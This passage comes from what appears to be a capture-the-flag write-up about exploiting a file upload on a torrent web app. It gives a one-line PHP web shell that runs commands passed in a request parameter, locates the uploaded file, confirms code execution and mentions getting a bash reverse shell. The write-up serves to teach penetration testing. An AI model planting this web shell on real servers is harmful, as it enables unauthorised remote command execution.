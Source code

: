A trick I have learned from _ippsec_ is to use a generic PHP payload that we can send a HTTP request parameter. This is much more flexible than a reverse shell as we can run commands, and do more testing without continually uploading files. My go to payload is:

```none
<?php system($_REQUEST["cmd"]) ?>
```

Finding the uploaded file is possible, as it is displayed when you hover over the screenshot in the web app. It is under `torrent/upload`.

![File upload location](screenshots/80_torrent_upload.png)

Looks like the file name is changed to a hash of something. I couldn't figure out what the hash is, as it is not the filename or the file. Looking at the web source would probably determine what it is. Anyway, now we have code execution.

![Code execution](screenshots/80_torrent_codeexecution.png)

I intercepted a request using Burp, and started trying to get a reverse shell. Used a standard bash shell - which worked well.
